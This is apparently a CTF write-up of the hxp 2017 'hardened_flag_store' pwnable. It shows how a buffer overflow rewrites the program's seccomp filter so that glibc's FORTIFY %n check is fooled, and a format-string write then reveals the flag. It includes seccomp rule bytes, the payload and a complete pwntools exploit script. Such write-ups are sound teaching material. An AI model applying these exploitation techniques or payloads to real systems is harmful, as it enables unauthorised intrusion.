 title: hxp CTF 2017 -- hardened_flag_store
author: Bruce Chen
tags:
  - CTF
  - Pwnable
  - Python
  - BOF
  - format_string
  - seccomp
  - hxp
categories:
  - write-ups
date: 2017-11-20 19:18:00
---
**Category:** Pwnable

64 bit ELF with PIE, NX, FULL RELRO enabled 

<!-- more -->  

The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
